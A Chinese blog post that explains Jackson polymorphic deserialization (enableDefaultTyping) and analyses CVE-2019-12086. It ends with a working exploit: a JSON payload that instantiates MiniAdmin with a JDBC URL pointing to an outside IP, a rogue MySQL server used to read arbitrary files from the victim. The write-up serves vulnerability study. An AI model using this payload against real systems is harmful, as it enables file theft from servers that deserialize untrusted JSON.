

# jackson 学习+CVE-2019-12086 漏洞分析 - 飘渺红尘✨ - 博客园

> 原文：[`www.cnblogs.com/piaomiaohongchen/p/14832476.html`](https://www.cnblogs.com/piaomiaohongchen/p/14832476.html)

　　jackson 和 fastjson 差不多,都是用来更方便的处理 json

　　国人用 fastjson,老外用 jackson/gson 比较多

　　环境搭建:

　　　　pom.xml:

```
<dependency>
            <groupId>mysql</groupId>
            <artifactId>mysql-connector-java</artifactId>
            <version>5.1.25</version>
        </dependency>

        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.9.8</version>
        </dependency>

        <dependency>
            <groupId>junit</groupId>
            <artifactId>junit</artifactId>
            <version>RELEASE</version>
            <scope>compile</scope>
        </dependency>
```

　　Student.java:

```
package com.test.JackSonTest; public class Student{ private String name; private Integer age; private Teacher teacher; public Student(){
        System.out.println("student 构造方法被调用");
    }; public String getName() { return name;
    } public void setName(String name) { this.name = name;
    } public Integer getAge() { return age;
    } public void setAge(Integer age) { this.age = age;
    } public Teacher getTeacher() { return teacher;
    } public void setTeacher(Teacher teacher) { this.teacher = teacher;
    }

    @Override public String toString() { return "Student{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", teacher=" + teacher +
                '}';
    }
}
```

　　　　Teacher.java:

```
package com.test.JackSonTest; public class Teacher{ private String name; private int age; public Teacher(){
        System.out.println("teacher 构造方法被调用");
    }; public Teacher(String name,int age){ this.name = name; this.age = age;
    } public String getName() { return name;
    } public void setName(String name) { this.name = name;
    } public int getAge() { return age;
    } public void setAge(int age) { this.age = age;
    }

    @Override public String toString() { return "Teacher{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }
}
```

　　测试类:　　

```
@Test public void test1() throws IOException { //序列化 对象转 json 字符串数据
        Student student = new Student();
        student.setName("jack");
        student.setAge(20);
        student.setTeacher(new Teacher("lua",33));
        ObjectMapper objectMapper = new ObjectMapper();
        objectMapper.setSerializationInclusion(JsonInclude.Include.NON_NULL);
        String result = objectMapper.writeValueAsString(student);
        System.out.println(result); //反序列化,json 字符串数据转对象
        String jsonResult = "{\"name\":\"jack\",\"age\":20,\"teacher\":{\"name\":\"lua\",\"age\":33}}";
        Student stu = objectMapper.readValue(jsonResult, Student.class);
        System.out.println(stu);
    }
```

　　运行输出:

　　　　

```
student 构造方法被调用
{"name":"jack","age":20,"teacher":{"name":"lua","age":33}}
student 构造方法被调用
teacher 构造方法被调用
Student{name='jack', age=20, teacher=Teacher{name='lua', age=33}}
```

　发现在反序列化(json 转对象)的时候,优先调用构造方法,如果反序列化的 json 数据中的类继承了其他类,会自动调用其父类无参构造方法

　　Jackson 打印对象类型:　　

```
@Test public void test2() throws IOException { //序列化 对象转 json 字符串
        Student student = new Student();
        student.setName("jack");
        student.setAge(20);
        student.setTeacher(new Teacher("lua",33));
        ObjectMapper objectMapper = new ObjectMapper(); //序列化 JSON 串时，在值上打印出对象类型
 objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);
        String result = objectMapper.writeValueAsString(student);
        System.out.println(result); //反序列化 json 字符串转对象
        String jsonResult = "[\"com.test.JackSonTest.Student\",{\"name\":\"jack\",\"age\":20,\"teacher\":[\"com.test.JackSonTest.Teacher\",{\"name\":\"lua\",\"age\":33}]}]";
        Student stu = objectMapper.readValue(jsonResult, Student.class);
        System.out.println(stu);
    }
```

　　运行输出:

　　

```
student 构造方法被调用
["com.test.JackSonTest.Student",{"name":"jack","age":20,"teacher":["com.test.JackSonTest.Teacher",{"name":"lua","age":33}]}]
student 构造方法被调用
teacher 构造方法被调用
Student{name='jack', age=20, teacher=Teacher{name='lua', age=33}}
```

　这个很重要,jackson 的很多漏洞跟他息息相关:

　　　　通过上面的代码可以发现当开启 enableDefaultTyping 的时候,json 字符串中的类会被反序列化.

　　继续编写 jackson 测试:

　　test_poc.java:

```
package com.test.JackSonTest; public class test_poc { public test_poc(){}; public test_poc(String name){
        System.out.println(name);
    }
}
```

　　通过上面的代码,发现存在构造方法,一个无参,另一个有参数构造方法

　　jackson 反序列化:

　　测试类:

```
 @Test public void test3() throws IOException {
        ObjectMapper objectMapper = new ObjectMapper(); //序列化 JSON 串时，在值上打印出对象类型
 objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL); //自定义构造
        String jsonResult = "[\"com.test.JackSonTest.test_poc\",\"test\"]";
        objectMapper.readValue(jsonResult,test_poc.class);
    }
```

　　

　　　　发现在[]中设置 value,相当于是为构造方法添加新的参数

　　　　　　

　通过前面的前置知识铺垫,jackson 了解到的相关基础:(1)如果想使用[]去完成反序列化攻击,必须要开启 enableDefaultTyping,获取到对象类型 (2)反序列化的时候自动调用对象构造方法及父类构造方法  (3)有参构造方法不需要设定值,不像 setName/getName 那样,需要"name":"test",只要[类,值]即可完成填充

　　CVE-2019-12086 是一个文件读取漏洞,直接查看他的利用链:利用环境在文章第一行已创建:

　　　　漏洞文件在:

　　　　　　repository/mysql/mysql-connector-java/5.1.25/mysql-connector-java-5.1.25.jar!/com/mysql/jdbc/MiniAdmin.class:

　　　　通过反射加载跟进去:

　　　　　　

　　问题代码:

```
 public MiniAdmin(String jdbcUrl) throws SQLException { this(jdbcUrl, new Properties());
    } public MiniAdmin(String jdbcUrl, Properties props) throws SQLException { this.conn = (Connection)((Connection)(new Driver()).connect(jdbcUrl, props));
    }
```

　　　　前面我们已经学习了足够多的前置知识,这里会连接 jdbcUrl,如果 jdbcUrl 可控,会发送链接,正好 mysql8 以下存在任意文件读取...下面直接构造 exp:

　　　　attackerJdbc.java:

```
package com.test.JackSonTest; import com.fasterxml.jackson.databind.ObjectMapper; import com.mysql.jdbc.MiniAdmin; import java.io.IOException; import java.sql.SQLException; public class attackJdbc { public static void main(String[] args) throws ClassNotFoundException, IOException, SQLException {
        ObjectMapper objectMapper =new ObjectMapper();
        Class.forName("com.mysql.jdbc.MiniAdmin"); //一定要开启 enableDefaultTyping
 objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL); //通过前面的知识点学习知道，如果这样构造，就会自动给 MiniAdmin 类的有参构造方法传入 string 类型数据,数据内容为:jdbc:mysql://119.45.227.86:123/
        String json = "[\"com.mysql.jdbc.MiniAdmin\",\"jdbc:mysql://119.45.227.86:123/\"]";
        objectMapper.readValue(json,Object.class);
    }
}
```

　　不理解部分查看注释:

　　　　运行代码:

　　　　

 　　这个漏洞相对简单,所以就不跟底层机制了.

　　　如果后续要找相关利用链,也可以用这个方法操作下..

漏洞学习参考:

[`b1ue.cn/archives/189.html`](https://b1ue.cn/archives/189.html)

[`www.cnblogs.com/xinzhao/p/11005419.html`](https://www.cnblogs.com/xinzhao/p/11005419.html)